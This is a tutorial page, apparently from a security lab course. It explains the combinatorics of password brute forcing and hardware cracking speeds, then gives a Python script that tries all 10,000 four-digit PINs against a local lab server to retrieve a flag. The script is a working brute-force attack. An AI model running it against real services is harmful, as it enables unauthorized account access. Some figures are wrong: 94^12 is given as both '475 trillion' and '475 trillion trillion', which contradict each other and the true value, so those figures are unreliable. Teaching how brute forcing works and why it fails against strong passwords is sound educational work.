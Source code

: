 ## Mathematical Foundation of Brute Force
### Formula:
**Possible Combinations = Character Set Size ^ Password Length**

Example:
- **6-character password** with only lowercase letters (26 characters):  
  `26^6 ≈ 300 million possible combinations`
- **8-character password** with only lowercase letters:  
  `26^8 ≈ 200 billion possible combinations`
- **12-character password** with lowercase, uppercase, numbers, and symbols:  
  `94^12 ≈ 475 trillion combinations`

### Impact of Password Length and Complexity
Increasing password length or character set (adding uppercase letters, numbers, symbols) exponentially increases the number of possible combinations, making brute-forcing more challenging.

| **Password Length** | **Character Set**                               | **Possible Combinations**         |
|---------------------|-------------------------------------------------|----------------------------------|
| 6                   | Lowercase letters (a-z)                        | 26^6 ≈ 300 million              |
| 8                   | Lowercase letters (a-z)                        | 26^8 ≈ 200 billion              |
| 8                   | Lowercase + Uppercase letters (a-z, A-Z)       | 52^8 ≈ 53 trillion              |
| 12                  | Lowercase + Uppercase + Numbers + Symbols      | 94^12 ≈ 475 trillion trillion   |

## Brute Force Speed and Hardware Influence
- **Basic Computer (1 million passwords/second)**:  
  Adequate for cracking simple passwords, but becomes impractical for complex passwords.
  - Example: Cracking an 8-character alphanumeric password would take ~6.92 years.
  
- **Supercomputer (1 trillion passwords/second)**:  
  Greatly accelerates brute-forcing, but even with massive resources, cracking complex passwords can still take an impractical amount of time.
  - Example: Cracking a 12-character password with all ASCII characters would take ~15,000 years.

## Practical Example: Cracking a 4-Digit PIN
The following Python script demonstrates a brute-force attack on a simple system that generates a random 4-digit PIN.

### Python Code: `pin-solver.py`
```python
import requests

ip = "127.0.0.1"  # Change this to your instance IP address
port = 1234       # Change this to your instance port number

# Try every possible 4-digit PIN (from 0000 to 9999)
for pin in range(10000):
    formatted_pin = f"{pin:04d}"  # Convert number to a 4-digit string (e.g., 7 becomes "0007")
    print(f"Attempted PIN: {formatted_pin}")

    # Send request to server
    response = requests.get(f"http://{ip}:{port}/pin?pin={formatted_pin}")

    # Check if correct PIN found
    if response.ok and 'flag' in response.json():  # .ok means status code 200
        print(f"Correct PIN found: {formatted_pin}")
        print(f"Flag: {response.json()['flag']}")
        break
```
